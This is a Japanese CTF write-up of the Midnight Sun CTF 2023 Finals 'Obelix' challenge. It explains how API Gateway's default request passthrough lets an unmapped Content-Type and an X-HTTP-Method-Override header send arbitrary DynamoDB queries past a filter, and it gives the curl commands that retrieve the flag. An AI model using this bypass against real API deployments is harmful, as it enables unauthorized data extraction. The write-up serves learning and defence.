

Midnight Sun CTF 2023 の Finals に参加してきました。

ストックホルムに行ったので色々と観光して回ったのですが、それはまた気分が乗ったら書こうと思います。

総じて楽しい CTF だったのですが、Web カテゴリの問題で「Obelix」という問題が面白かったので紹介します。

問題内容としては以下の CloudFormation のファイルが配布されて、DynamoDB からフラグを取ってこいというもの。

配布ファイル: <https://gist.github.com/tyage/cf1d2221720776ce3c5562e14189b732>

ファイルからは DynamoDB のテーブル定義の他、DynamoDB にクエリを投げることのできる API Gateway が確認できます。

外部からアクセスできる API としては `/prod/movies/:moviename` からアクセスできる `MovieNameMethodGet` があり、これを通じてDynamoDBないのデータを検索することができます。
DynamoDB に送信するクエリを定義した RequestTemplates には FLAG の一部である「midnight」を含むデータが出力されないようなフィルターが設定されています。

```yaml
MovieNameMethodGet:
  Type: "AWS::ApiGateway::Method"
  Properties:
    RestApiId: !Ref Api
    ResourceId: !Ref MovieNameResource
    HttpMethod: GET
    ApiKeyRequired: false
    AuthorizationType: NONE
    RequestParameters:
      method.request.path.moviename: true
    Integration:
      Type: AWS
      Credentials: !GetAtt APIGatewayRole.Arn
      IntegrationHttpMethod: POST
      Uri: !Sub "arn:aws:apigateway:${AWS::Region}:dynamodb:action/Query"
      RequestParameters:
        integration.request.path.moviename: method.request.path.moviename
      RequestTemplates:
        application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
      IntegrationResponses:
        - StatusCode: "200"
          ResponseParameters:
            method.response.header.Access-Control-Allow-Methods: "'GET,OPTIONS'"
            method.response.header.Access-Control-Allow-Origin: "'*'"
    MethodResponses:
      - StatusCode: "200"
        ResponseParameters:
          method.response.header.Access-Control-Allow-Methods: false
          method.response.header.Access-Control-Allow-Origin: false
```

そのため、API を叩いて見ても FLAG らしい文字列は出力されません。

```bash
$ curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers

{"Count":1,"Items":[{"director":{"S":"Iain Softley"},"moviename":{"S":"hackers"},"image":{"S":"https://static.wikia.nocookie.net/soundeffects/images/b/b6/Hackers_%281995%29.jpg/revision/latest?cb=20200220043404"},"movielength":{"S":"107"},"posterpos":{"S":"0% 21%"},"year":{"S":"1995"},"description":{"S":"In 1988, Dade 'Zero Cool' Murphy (age 11) is arrested and charged with crashing 1,507 systems in one day and causing a single-day 7-point drop in the New York Stock Exchange. Upon conviction, he is banned from owning or operating computers or touch-tone telephones until his 18th birthday."},"id":{"S":"J0C63G8DCYcF6MA="},"color":{"S":"#a50000b3"}}],"ScannedCount":2}
```

この時点で API Gateway をよく知っている人なら問題に気づくのかなとも思うのですが、私はよく分からなかったのでとりあえずデプロイして試してみることにしました。
API Gateway の `MovieNameMethodGet` リソースの Integration Request セクションを眺めてみたところ、`All request bodies will be passed through to the integration endpoint.` という警告が表示されていることに気づきました。



要は、テンプレートで定義されていない Content-Type のリクエストが送信されると、リクエストがそのまま DynamoDB に送信されてしまうようなのです。
また、画面上では警告しているものの、この設定はデフォルトの設定なので CloudFormation ファイル上には関連する内容の記載がありません。

[Integration passthrough behaviors - Amazon API Gateway](https://docs.aws.amazon.com/apigateway/latest/developerguide/integration-passthrough-behaviors.html)

今回は `application/json` 以外の Content-Type が利用できるので、`Content-Type: text/json` を設定することでフィルターを無視して任意のクエリを DynamoDB へ送りつけることが可能です。

ここまでくればほぼ解けたようなものなのですがもう少しだけやることがあります。
`MovieNameMethodGet` は GET メソッドしか受け付けていないため、GET のままリクエストボディを設定する必要があるのですが、素直にそれをやると怒られてしまいます。

```bash
$ curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -X GET -H 'Content-Type: text/json'  --data '{}'

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<HTML><HEAD><META HTTP-EQUIV="Content-Type" CONTENT="text/html; charset=iso-8859-1">
<TITLE>ERROR: The request could not be satisfied</TITLE>
</HEAD><BODY>
<H1>403 ERROR</H1>
<H2>The request could not be satisfied.</H2>
...
```

こういったときは `X-HTTP-Method-Override` が便利ですよね。
(あのヘッダの名前なんだったっけな～と思い出そうとしていたら icchy がシュッと答えてくれた。)
これで CloudFront に怒られずにリクエストボディを設定することができ、無事に FLAG を得ることができました。

```bash
$ curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'

{"Count":2,"Items":[{"director":{"S":"Iain Softley"},"moviename":{"S":"hackers"},"image":{"S":"https://static.wikia.nocookie.net/soundeffects/images/b/b6/Hackers_%281995%29.jpg/revision/latest?cb=20200220043404"},"movielength":{"S":"107"},"posterpos":{"S":"0% 21%"},"year":{"S":"1995"},"description":{"S":"In 1988, Dade 'Zero Cool' Murphy (age 11) is arrested and charged with crashing 1,507 systems in one day and causing a single-day 7-point drop in the New York Stock Exchange. Upon conviction, he is banned from owning or operating computers or touch-tone telephones until his 18th birthday."},"id":{"S":"J0C63G8DCYcF6MA="},"color":{"S":"#a50000b3"}},{"director":{"S":"avlidienbrunn"},"moviename":{"S":"hackers"},"image":{"S":"avlidienbrunn"},"movielength":{"S":"1337"},"posterpos":{"S":"0% 0%"},"year":{"S":"1337"},"description":{"S":"midnight{wh4t_t3h_fr1CK_h0w_d1d_j00_r33d_th@t_1_HaD_a_fILTer???}"},"id":{"S":"J0C69FonCYcFlNA="},"color":{"S":"#ffffff"}}],"ScannedCount":2}
```

FLAG: `midnight{wh4t_t3h_fr1CK_h0w_d1d_j00_r33d_th@t_1_HaD_a_fILTer???}`

API Gateway をフィルタ代わりに利用するとこういう問題が起きるというのは知らなかったので素直に勉強になりました。

ちなみにこの問題はなかなか解くチームが現れず、しばらく誰も解けなかったらヒントが出されると予告されていたのですが、ヒントが出される前に一番乗りで解くことができたのでよかったです。
(最終的に解けたのは 15 チーム中 3 チームでした。)
